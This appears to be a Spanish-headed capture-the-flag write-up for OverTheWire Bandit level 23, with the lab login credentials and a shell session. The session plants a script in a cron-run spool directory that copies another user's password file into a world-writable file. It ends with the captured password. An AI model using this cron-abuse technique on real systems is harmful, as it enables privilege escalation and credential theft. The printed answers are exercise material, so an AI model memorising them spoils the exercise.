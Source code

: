 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso
host :  **bandit.labs.overthewire.org** port 2220
username is **bandit23**
ssh:  bandit23@bandit.labs.overthewire.org -p 2220
password: **QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G**
## Solución

``` bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit23       e2scrub_all
cronjob_bandit17_root  cronjob_bandit24       otw-tmp-dir
cronjob_bandit22       cronjob_bandit25_root  sysstat
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
bandit23@bandit:/tmp/kd$ ls -la
total 124
drwxrwxr-x   2 bandit23 bandit23   4096 Mar  4 21:28 .
drwxrwx-wt 281 root     root     114688 Mar  4 21:37 ..
-rw-rw-rw-   1 bandit23 bandit23      0 Mar  4 21:36 password
-rwxrwxr-x   1 bandit23 bandit23     50 Mar  4 21:35 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 124
drwxrwxr-x   2 bandit23 bandit23   4096 Mar  4 21:28 .
drwxrwx-wt 281 root     root     114688 Mar  4 21:38 ..
-rw-rw-rw-   1 bandit23 bandit23      0 Mar  4 21:36 password
-rwxrwxr-x   1 bandit23 bandit23     50 Mar  4 21:35 script.sh
bandit23@bandit:/tmp/kd$ date
Sat Mar  4 09:38:13 PM UTC 2023
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 
bandit23@bandit:/tmp/kd$

```

## Notas Adicionales
Password : **VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**
## Referencias
